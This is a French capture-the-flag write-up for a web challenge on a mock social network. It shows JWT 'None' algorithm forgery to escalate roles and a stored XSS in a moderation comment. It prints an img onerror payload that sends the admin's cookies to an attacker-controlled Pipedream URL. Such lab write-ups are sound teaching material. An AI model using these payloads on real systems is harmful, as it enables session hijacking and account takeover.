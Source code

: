 # Jeanned'Hack CTF - Writeup

## Réseau social Y - 2/3

| Catégorie | Difficulté | Points |
|-----------|------------|--------|
| Web       | Moyen      | 995    |

La suite du premier challenge sur Y, le nouveau réseau social.

### Étape 1 : JWT algorithm confusion

On part donc de la même application, avec le même menu de connexion, mais cette fois-ci un formulaire d'enregistrement est disponible.
En créant un compte et se connectant on se rend compte que l'authentification se fait maintenant en utilisant des JWT (JSON Web Tokens).

![Authentification via JWT](img/jwt-session-token.png)

Une fois connecté on peut voir deux sections, administration et moderation, pour lesquels on a besoin de droits supplémentaires :

![Rôle modérateur requis](img/moderator-required.png)

En inspectant le JWT obtenu, on peut identifier qu'un champ `role` est utilisé :

![Rôle JWT](img/jwt-role.png)

Étant donné l'utilisation de ces rôles et des JWT on peut tenter une attaque sur les JWT, en modifiant l'algorithme utilisé à `None` (algorithm confusion).
Cela pourra permettre de modifier ensuite le groupe de notre utilisateur.

![Modification du jeton](img/jwt-algorithm-confusion.png)

Après modification du jeton, on a quand même accès à notre profile, ce qui indique que le serveur vérifie mal le JWT. On peut utiliser cette vulnérabilité pour tenter d'accéder aux autres onglets en utilisant les rôles `moderator` et `administrator` qu'on a pu trouver dans les messages d'erreurs.

L'attaque fonctionne et nous permet d'accéder au panneau de modération :

![Accès à la page de modération](img/moderator-access.png)

Cependant, elle ne fonctionne pas pour l'accès au menu administrateur, un jeton MFA (multi-factor authentication) est requis :

![Double authentification requise pour l'administration](img/admin-denied.png)

Il va donc falloir trouver un moyen de récupérer ce jeton MFA, ou bien trouvé une autre vulnérabilité pour contourner cette sécurité.

### Étape 2 : XSS stockée

Regardons dans un premier temps du côté de l'onglet de modération :

![Modération](img/moderation-panel.png)

Cette page permet d'accepter ou de refuser les nouveaux postes avant d'être affiché sur la page d'accueil. Les postes refusés sont envoyés à l'administrateur pour qu'il décide de les supprimer ou non, et de plus un commentaire peut être ajouté avec des images ou des liens.

On peut donc tenter d'injecter du code JavaScript pour voir si le champ de commentaire est vulnérable à une XSS.

![Test XSS 1](img/xss-try1.png)

En tentant d'injecter une balise script, on peut voir que celle ci est détecté et que le commentaire est refusé.

Comme les images sont acceptées, on peut tenter de les utiliser pour déclencher une XSS avec le payload suivant :

```html
<img src=x onerror="alert(1)"/>
```

Ce payload fonctionne et on peut voir que la fonction `alert` est interprétée :

![Test XSS 2](img/xss-try2.png)

Étant donné que les postes refusés sont envoyés à l'administrateur, on peut d'exploiter cette
XSS pour forcer l'administrateur à effectuer des actions ou exfiltrer ses cookies.
Pour faire cela il faut un serveur publique qui peut recevoir de requêtes HTTP. Le service **Pipedream** peut être utilisé pour ça.

On peut utiliser le payload suivant dans le commentaire du poste, puis ensuite cliquer sur *Refuser* pour qu'il soit  :

```html
<img src=x onerror="(new Image).src='https://eo782455cio1nm7.m.pipedream.net/?cookie='+document.cookie"/>
```

Le cookie va donc être exfiltré vers le serveur que l'on contrôle et on va pouvoir le retrouver dans les logs du serveur, ou sur l'endpoint Pipedream :

![Cookie exfiltration](img/pipedream.png)

Enfin, en utilisant le cookie récupéré on peut finalement accéder à la page d'administration et obtenir le flag :

![Flag](img/admin-panel.png)